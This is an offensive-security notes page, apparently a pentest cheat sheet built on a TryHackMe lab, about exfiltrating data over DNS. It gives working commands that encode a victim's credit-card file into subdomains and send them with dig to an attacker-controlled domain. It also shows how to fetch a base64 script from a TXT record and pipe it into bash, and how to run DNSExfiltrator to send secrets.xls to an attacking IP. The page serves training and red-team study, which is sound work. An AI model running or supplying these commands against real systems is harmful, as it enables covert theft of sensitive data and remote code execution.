 # Over DNS

## Theory
The DNS protocol is a common protocol and Its primary purpose is to resolve domain names to IP addresses and vice versa. Even though the DNS protocol is not designed to transfer data, threat actors found a way to abuse and move data over it.  
Since DNS is not a transport protocol, many organizations don't regularly monitor the DNS protocol! The DNS protocol is allowed in almost all firewalls in any organization network. For those reasons, threat actors prefer using the DNS protocol to hide their communications.

### Limitations

The DNS protocol has limitations that need to be taken into consideration, which are as follows,

- The maximum length of the Fully Qualified FQDN domain name (including .separators) is 255 characters.
- The subdomain name (label) length must not exceed 63 characters (not including .com, .net, etc).

### Scenario

Now let's discuss the Data Exfiltration over DNS requirements and steps, which are as follows:  
1 - An attacker registers a domain name, for example, tunnel.com  
2 - The attacker sets up tunnel.com's NS record points to a server that the attacker controls.  
3 - The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.  
4 - The DNS request is sent through the local DNS server and is forwarded through the Internet.  
5 - The attacker's authoritative DNS (malicious server) receives the DNS request.  
6 - Finally, the attacker extracts the password from the domain name.  

## Practice

{% tabs %}
{% tab title="Manualy" %}
{% hint style="info" %}
We concider that a NS record named `t1.tunnel.com` as been registred. It's poiting the Attacking IP.
{% endhint %}

In order to receive any DNS request on the attacking machine, we need to capture the network traffic for any incoming UDP/53 packets using the [tcpdump](https://github.com/the-tcpdump-group/tcpdump) tool.  
```bash
v4resk@kali$ sudo tcpdump -i eth0 udp port 53 -v 
```
On the victim machine, we first encode datas that need to be send, and split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name.
```bash
# Methode 1
victim@pwnd.lab$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.t1.tunnel.com/' > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.t1.tunnel.com
IKQWRkcmVzczogMTIz.t1.tunnel.com
NCBJbnRlcm5ldCwgVE.t1.tunnel.com
hNCkNyZWRpdCBDYXJk.t1.tunnel.com
OiAxMjM0LTEyMzQtMT.t1.tunnel.com
IzNC0xMjM0CkV4cGly.t1.tunnel.com
ZTogMDUvMDUvMjAyMg.t1.tunnel.com
pDb2RlOiAxMzM3Cg==.t1.tunnel.com

#Methode 2
victim@pwnd.lab$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com
```
In order to send this datas, on the compromised host we can do:
```bash
victim@pwnd.lab$ cat toExfiltrate.txt | awk '{print "dig +short " $1}' | bash
```

Finally, on the attacking machine, we can decrypt datas as follow:
```bash
v4resk@kali$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```
{% endtab %}

{% tab title="Command Execution" %}
Let's see how can tunneling code execution via the DNS protocol.
We first need to create a `TXT` record containing our script encoded in base64. Let's take`script.tunnel.com` as example.

```bash
#Check if the TXT record is well configured
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com
"IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

#Execution over DNS
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```
{% endtab %}

{% tab title="DNSExfiltrator" %}
[DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator) allows for transfering (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.  
On the attacking machine we do:
```bash
v4resk@kali$ ./dnsexfiltrator.py -d mydomain.com -p password
```
On the compromised host:
```bash
dnsExfiltrator.exe secrets.xls mydomain.com password s=ATTACKING_IP t=500
```
{% endtab %}
{% endtabs %}

### DNS Tunneling
An other methode is to tunneling other protocols over DNS. Check this page for more details.
{% content-ref url="../pivoting/dnsTunneling.md" %}
[dnsTunneling.md](../pivoting/dnsTunneling.md)
{% endcontent-ref %}


## Resources
{% embed url="https://tryhackme.com/room/dataxexfilt" %}
